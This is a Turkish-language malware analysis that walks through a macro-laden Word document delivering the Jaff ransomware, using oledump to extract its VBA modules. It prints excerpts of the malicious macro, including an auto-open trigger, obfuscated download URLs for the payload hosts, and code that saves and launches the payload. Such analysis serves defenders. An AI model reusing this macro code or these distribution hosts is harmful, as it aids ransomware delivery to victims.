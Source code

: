 Oledump çıktısı bize dokümanın yapısı hakkında bilgi verir. Çıktı içerisinde gözlemlenen M harfi bize burada makronun varlığını göstermektedir. Makro potansiyeli içeren satırları “python oledump.py -v -s A7 BMUC3LI.docm >> <çıktıdosyası>" komutunu çalıştırarak dışarı çıkartabiliriz. Macro yapısına sahip olan satırları teker teker inceleyerek scriptin çalışma yapısı incelenir. İlk olarak "ThisDocument" incelenmeye başlanır. 
ThisDocument içerisinde "**Sub autoopen()**" parametresi ilk dikkatimizi çeken parametredir. Bu parametre dokümanın açılması ile makronun çalışmasını sağlar. Zararlı hareketi olduğunu gösteren bir kanıttır. Ayrıca "**Synomati "x1620"**" değeri de dikkat çekmektedir.

```
Attribute VB_Name = "ThisDocument"
Attribute VB_Base = "1Normal.ThisDocument"
Attribute VB_GlobalNameSpace = False
Attribute VB_Creatable = False
Attribute VB_PredeclaredId = True
Attribute VB_Exposed = True
Attribute VB_TemplateDerived = True
Attribute VB_Customizable = True
Sub autoopen()
Synomati "x1620"
End Sub
Sub Document_Open()
End Sub
```

"**Module1**" dosyasına bakıldığında göze ilk çarpan "**everstruct.cRRDD.au\jhg6fghVbrotexxshferrogd.net\af\jhg6fghVherrossoidffr6644qa.top\af\jhg6fghVelectua.org\jhg6fgh**" adresinden **jhg6fgh** isimli bir dosyanın indirildiğidir. Aşağıdaki kod içerisindeki adress incelendiğinde "everstruct.cRRDD.au" adresi içerisinde garip olan **RRDD** görüyoruz aslında kodu tam incelediğimizde **replace** komutu ile "RRDD" , "om" ile değiştirilerek everstruct.c**om**.au" adresini tamamlamaktadır.

```
ValdayE = Valday(2)
   Shtefin = Replace("everstruct.cRRDD.au\jhg6fghVbrotexxshferrogd.net\af\jhg6fghVherrossoidffr6644qa.top\af\jhg6fghVelectua.org\jhg6fgh", "RRDD", "om")
   Shtefin = Replace(Shtefin, "\", "/")
cnpk = Split(Shtefin, Window1.Command.Caption)
 Set SubProperty = CreateObject(Valday(1))
```
"Module1 içerisinde dikkat çeken bir başka kod ise "CreateObject" kullanarak indirilen jaff zararlısının template bir dizin içerisine indirildiği ve "objWMIService" ile jaff zararlısının çalıştırıldığı gözlemlenmektedir.
```
Public Function Uber_ProjectSpeed()
GoTo rTemp2
    Set FSO = CreateObject("Scripting.FileSystemObject")
Set oArgs = WScript.Arguments
If oArgs.Count = 1 Then
        strComputer = CStr(oArgs(0))
Else
    strComputer = InputBox("Enter computer name")
End If
Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\CIMV2")
Set colItems = objWMIService.ExecQuery("SELECT * FROM Win32_VideoController", "WQL", _
wbemFlagReturnImmediately + wbemFlagForwardOnly)
rTemp2:
 Uber_Project = Uber_LAKOPPC
 Uber_ProjectBBB = Uber_Project + "\eewadro" + CStr(itemI)
GoTo rTemp3
```
"**Module2**" Dosyası incelendiğinde daha önce ThisDocument içerisinde gördüğümüz **Synomati** fonksiyonunu görüyoruz. Burada Windows 7 ve XP karşılantırması yapıldığını görüyoruz. Buraya göre ransomware 2 windows versiyonuna göre farklı işlemlerde bulunduğunu söyleyebiliriz.
